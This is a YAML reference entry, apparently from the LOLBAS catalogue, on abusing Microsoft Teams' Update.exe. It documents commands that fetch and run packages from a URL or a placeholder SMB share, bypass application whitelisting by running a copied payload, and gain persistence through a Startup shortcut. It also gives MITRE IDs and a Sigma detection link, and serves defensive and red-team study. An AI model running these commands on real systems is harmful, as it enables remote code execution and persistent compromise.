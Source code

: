 ```yaml
---
Name: Update.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: 'Oddvar Moe'
Created: 2019-06-26
Commands:
  - Command: Update.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download binary
    Category: Download
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: Update.exe --update=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --update=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --update=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --update=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --updateRollback=[url to package]
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Application Whitelisting Bypass
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: CMD
      - Execute: Remote
  - Command: Update.exe --updateRollback=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --updateRollback=\\remoteserver\payloadFolder
    Description: The above binary will go to url and look for RELEASES file, download and install the nuget package via SAMBA.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: Nuget
      - Execute: Remote
  - Command: Update.exe --processStart payload.exe --process-start-args "whatever args"
    Description: Copy your payload into %userprofile%\AppData\Local\Microsoft\Teams\current\. Then run the command. Update.exe will execute the file you copied.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: CMD
  - Command: Update.exe --createShortcut=payload.exe -l=Startup
    Description: Copy your payload into "%localappdata%\Microsoft\Teams\current\". Then run the command. Update.exe will create a payload.exe shortcut in "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup". Then payload will run on every login of the user who runs it.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1547
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: EXE
  - Command: Update.exe --removeShortcut=payload.exe -l=Startup
    Description: Run the command to remove the shortcut created in the "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup" directory you created with the LolBinExecution "--createShortcut" described on this page.
    Usecase: Execute binary
    Category: Execute
    Privileges: User
    MitreID: T1070
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
    Tags:
      - Execute: EXE
Full_Path:
  - Path: 'C:\Users\<username>\AppData\Local\Microsoft\Teams\update.exe'
Code_Sample:
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6312dd1d44d309608552105c334948f793e89f48/rules/windows/process_creation/proc_creation_win_lolbin_squirrel.yml
  - IOC: Update.exe spawned an unknown process
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: https://twitter.com/MrUn1k0d3r/status/1143928885211537408
  - Link: https://twitter.com/reegun21/status/1291005287034281990
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
  - Link: https://medium.com/@reegun/nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-80c9df51cf12
  - Link: https://medium.com/@reegun/update-nuget-squirrel-uncontrolled-endpoints-leads-to-arbitrary-code-execution-b55295144b56
  - Link: https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/microsoft-teams-updater-living-off-the-land/
Acknowledgement:
  - Person: Reegun Richard Jayapaul (SpiderLabs, Trustwave)
    Handle: '@reegun21'
  - Person: Mr.Un1k0d3r
    Handle: '@MrUn1k0d3r'
  - Person: Adam
    Handle: '@Hexacorn'
  - Person: Jesus Galvez
---
```

